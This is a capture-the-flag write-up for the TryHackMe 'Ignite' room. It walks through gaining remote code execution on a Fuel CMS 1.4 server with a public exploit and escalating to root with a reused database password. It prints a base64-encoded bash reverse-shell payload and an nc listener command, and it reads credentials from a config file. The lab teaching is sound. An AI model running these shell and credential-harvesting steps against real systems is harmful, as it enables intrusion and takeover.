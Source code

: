 # THM: Ignite

| Stat | Value |
| ---------- | -------------------------------------------- |
| Image | <img src="/images/write_ups/try_hack_me/ignite/ignite.png" alt="Ignite" width="90"/> |
| Room | Ignite |
| URL | https://tryhackme.com/room/ignite |
| Difficulty | Easy |

## Concepts/Tools Used

- [netcat](/tools/netcat.md)
- [nmap](/tools/nmap.md)
- [searchsploit](/tools/searchsploit.md)
- base64

## Room Description

A new start-up has a few issues with their web server.

## Process

Once the machine starts up I save the machine's ip address to my host file so that I can type `target.thm` instead of an ip address.

I run nmap to see what ports are open:

```bash
$ nmap -T4 -n -sC -sV -Pn -p- target.thm
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-17 06:00 BST
Nmap scan report for target.thm (10.10.56.91)
Host is up (0.00014s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
MAC Address: 02:4F:B3:1C:25:11 (Unknown)
```

I notice that an http server is running on port 80 and so I take a look at the site with Firefox.

![Ignite Homepage](/images/write_ups/try_hack_me/ignite/homepage.png)

The site is using the Fuel CMS version 1.4 software. Near the bottom it mentions that the default username and password are admin:admin.

The nmap scan above mentioned the /fuel/ directory. When I browse that page I notice that it is a login page for the Fuel CMS.

![Fuel CMS Login Page](/images/write_ups/try_hack_me/ignite/login.png)

I use the credentials found earlier, I am in.

## Getting a Foothold

I looked around for a place where I could inject PHP code and run a remote shell. I was unable to find anything and so I ran the following command to see if I could find an exploit in Fuel CMS:

```bash
$ searchsploit fuel cms 1.4
---------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                  | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                  | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                  | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                 | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                        | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)            | php/webapps/48778.txt
---------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I start at the top of the list with 47138 and copy it to my current directory using the following command:

```bash
$ searchsploit -m 47138
```

I look at the script and see that it is for python 2 (python3 requires the print function to have parentheses around what gets printed). I make two alterations to the script:

- The url variable on line 14 gets updated from "http://127.0.0.1:8881" to "http://target.thm".
- The proxy variable on line 25 gets updated from {"http":"http://127.0.0.1:8080"} to {}.

I run the script with the following command:

```bash
$ python 47138.py
cmd:whoami
systemwww-data

<div style="...
```

I now have remote code execution on the machine. Now I run a few commands to get the contents of the flag.txt file:

```bash
cmd:ls -lha /home
systemtotal 12K
drwxr-xr-x  3 root     root     4.0K Jul 26  2019 .
drwxr-xr-x 24 root     root     4.0K Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4.0K Jul 26  2019 www-data
```

I check what files are in the /home/www-data directory:

```bash
cmd:ls -lha /home/www-data
systemtotal 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
```

I get the contents of the flag.txt file:

```bash
cmd:cat /home/www-data/flag.txt
systemREDACTED
```

I don't want to keep running commands like this, I need a reverse shell. I setup a listener on my machine in a new terminal with the following command:

```bash
$ nc -lnvp 4444
```

I tried to get a reverse shell using commands [found here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Each time I ran the commands on the site above, none of them worked. I have used those commands before and I know they are good commands. I remembered that sometimes you need deliver the payload a different way to actually run it.

With that in mind, I base64 encoded the payload so that it could transfer properly. Here is the command I used to encode it:

```bash
$ echo "bash -i >& /dev/tcp/<attack_box_ip>/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==
```

I am using a command that will not work because the attack_box_ip must be filled in. I took the output of the previous command and ran:

```bash
$ echo "YmFzaCAtaSA+JiAvZGV2L3RjcC88YXR0YWNrX2JveF9pcD4vNDQ0NCAwPiYxCg==" | base64 -d | bash
```

I have a shell. I'm in!

## Privilege Escalation

I ran my [usual list of commands](/concepts/privilege_escalation.md#linux-privilege-escalation). This didn't yield anything.

I remembered that the homepage of Fuel CMS mentioned where the configuration files were stored. I ran the following command:

```bash
$ cat /var/www/html/fuel/application/config/database.php
```

The output had some interesting lines:

```bash
...
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => REDACTED,
	'database' => 'fuel_schema',
...
```

Since the username is root. I tried to log in as the root user with that password:

```bash
$ su root
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```
